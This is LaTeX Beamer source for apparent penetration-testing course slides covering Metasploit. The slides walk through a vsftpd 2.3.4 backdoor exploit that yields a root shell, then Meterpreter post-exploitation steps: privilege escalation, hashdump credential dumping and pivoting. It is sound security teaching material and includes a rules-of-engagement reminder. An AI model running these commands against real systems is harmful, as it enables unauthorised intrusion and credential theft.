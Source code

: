 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\legalbox}[1]{%
  \begin{beamercolorbox}[wd=\textwidth,sep=6pt,rounded=true]{block body}%
  \color{warnRed}\textbf{\faExclamationTriangle\ Legal/Ethics:} #1%
  \end{beamercolorbox}}
\begin{document}
\begin{frame}[fragile]{Metasploit: a typical console session}
  \begin{lstlisting}[language=bash]
$ msfconsole -q
msf6 > search vsftpd 2.3.4
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD cmd/unix/interact
msf6 exploit(...) > exploit
[*] Command shell session 1 opened ...
$ whoami
root
msf6 > sessions -l        # list active sessions
msf6 > sessions -i 1      # interact
  \end{lstlisting}
  \footnotesize Same six verbs everywhere: \texttt{search, use, show options,
  set, exploit/run, sessions}. Learn the rhythm, not the exploit list.
\end{frame}

\begin{frame}[fragile]{Post-exploitation with Meterpreter}
  \begin{lstlisting}[language=bash]
meterpreter > getuid           # who am I?
meterpreter > sysinfo          # OS, arch
meterpreter > getsystem        # attempt privilege escalation
meterpreter > hashdump         # dump local password hashes
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > portfwd add -l 3389 -p 3389 -r 10.0.0.9  # pivot
meterpreter > background        # keep session, return to msf
  \end{lstlisting}
  \vspace{0.3em}
  \textbf{Goals after foothold:} escalate privileges, harvest credentials,
  establish persistence, move laterally, reach the objective (``crown jewels'').
  \legalbox{\footnotesize \texttt{hashdump} / persistence on a real client
  system must be covered by the RoE and cleaned up afterwards.}
\end{frame}

\section{Red Teaming}
\end{document}
